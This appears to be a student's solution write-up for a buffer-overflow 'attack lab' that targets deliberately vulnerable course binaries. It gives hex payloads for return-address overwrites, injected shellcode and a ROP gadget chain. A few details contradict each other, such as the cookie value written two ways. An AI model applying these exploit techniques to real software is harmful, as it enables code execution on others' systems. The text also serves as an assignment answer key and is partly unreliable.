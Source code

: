 ### phase 1
the aim is to redirect the function to execute `touch1()` function. we can see that `getbuf()` allocates 56 bytes of memory, and
returns a value:
```assembly
0x0000000000402601 <+0>:	sub    $0x38,%rsp
0x0000000000402605 <+4>:	mov    %rsp,%rdi
0x0000000000402608 <+7>:	call   0x4028a2 <Gets>
0x000000000040260d <+12>:	mov    $0x1,%eax
0x0000000000402612 <+17>:	add    $0x38,%rsp
0x0000000000402616 <+21>:	ret
```
so we can provide 56 bytes of padding followed by the beginning address of `touch1()`.
```assembly
0000000000402617 <touch1>:
  402617:	50                   	push   %rax
  402618:	58                   	pop    %rax
  402619:	48 83 ec 08          	sub    $0x8,%rsp
  40261d:	c7 05 15 22 11 00 01 	movl   $0x1,0x112215(%rip)
  # ......
```
`0x402617` is where the `touch1()` function lives on the stack. so we need to create a text file with $8\*7$ bytes of padding,
then the little endian address of `touch1()`:
```
/* 56 bytes padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* touch1 little endian addr */
17 26 40 00 00 00 00 00
```

### phase 2
the aim of this phase is to execute code in `touch2()`, but under the condition our cookie is passed to the function. we can crate a
small assembly instruction to move our cookie into `%rdi` register (first argument), and return:
```assembly
mov $0x76EBDB65, %rdi
ret
```

then use GCC to create an object file we can disassemble:
```shell
cc -c ctarget.l2.s
objdump -d ctarget.l2.o
0000000000000000 <.text>:
   0:	48 c7 c7 56 db eb 76 	mov    $0x76ebdb56,%rdi
   7:	c3                   	ret
```
the hexadecimal byte representation of our assembly instructions is `48 C7 C7 56 DB EB 76 C3`.\
now executing the `getbuf()` function in `ctarget`, we're prompted to enter a string, which should be longer than the buffer
allocated for the function (56 bytes):
```
>>> x/s $rsp
0x5561a060:	"abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz"
>>> x/x touch2
0x00402647 <touch2>:	0x50
```
above is the address of the stack pointer (`0x5561A060`) and the beginning of `touch2()` function (`0x00402647`). these will be used
to transfer control to `touch2()` by incrementing the stack pointer and executing the address where `touch2()` begins:
```
/* asm instruction */
48 C7 C7 56 DB EB 76 C3
/* remaining 48 bytes padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* %rsp little endian addr */
60 A0 61 55 00 00 00 00
/* touch2 little endian addr */
47 26 40 00 00 00 00 00
```

### phase 3
the objective of this phase is to pass our cookie as **a string** to `touch3()` function, which means pushing it onto the stack in
`%rdi` register like previous phases. however, the instructions note that functions `hexmatch()` and `strncmp()` also push data onto 
the stack, meaning our cookie must be pushed *after* those functions are called.

first step is to find where to store our cookie — recall our buffer is 56 bytes, `hexmatch()` and `strncmp()` will both allocate 8
bytes on the stack, so $56 + 8 + 8 = 72$.\
this means we must add 72 bytes on top of `%rsp` (use address from phase 2) — $5561A060_{16} + 48_{16} = 5561A0A8_{16}$. this is the
new address used in our assembly snippet to increment the stack pointer:
```assembly
mov $0x5561A0A8, %rdi
ret
```

compile and dump the contents of the object file like before. this is the first thing that will be in solution file, followed by the
remaining necessary padding, then the address of `touch3()` to "initialise" the fucntion, then our cookie (converted to a hexadecimal
string) which is passed as an argument to `touch3()`:
```
/* asm instruction */
48 C7 C7 A8 A0 61 55 C3
/* remaining 48 bytes padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* %rsp little endian addr */
60 A0 61 55 00 00 00 00
/* touch3 little endian addr */
5C 27 40 00 00 00 00 00
/* cookie as hex string */
37 36 65 62 64 62 35 36
```

### phase 4
the aim of this phase is move our cookie into `%rdi`, then call `touch2()`, just like phase 2, except with address randomisation.
[gadgets](solutions/misc/farm.s) exist that we can use to execute instructions using their hexadecimal representation.

first we need to pop `%rax` off the stack, which corresponds to `0x58`, so we must find a matching instruction:
```
<addval_241>:
  402832:	8d 87 58 89 c7 c3    	lea    -0x3c3876a8(%rdi),%eax
  402838:	c3                   	ret
```
above, the instruction starts at `0x402832`, and `0x58` is offset by 2 bytes, so the address that'll jump directly to the pop
instruction is `0x402834`.

next we need the instruction to `mov %rax, %rdi` and return, which is represented by `48 89 C7 C3`:
```
<getval_350>:
  402853:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
  402858:	c3                   	ret
```
this instruction starts at `0x402853`, but the string we're looking for is offset by 1 byte, so add that to the starting address: 
`0x402854`.\
lastly, we just need to call `touch2()` with its entry address like before.

```
/* 56 bytes padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* pop %rax off stack */
34 28 40 00 00 00 00 00
/* cookie (little endian) */
56 DB EB 76 00 00 00 00
/* mov %rax, %rdi and ret */
54 28 40 00 00 00 00 00
/* touch2 little endian addr */
47 26 40 00 00 00 00 00
```

### misc
**hex2raw usage**
```shell
./hex2raw < *target.l*.txt > *target.l*.bin
```

**target binary usage**
```shell
./ctarget < ctarget.l*.bin
./rtarget < rtarget.l*.bin
```

**test script usage**
```shell
./test.sh [c r] [1 2 3]
```
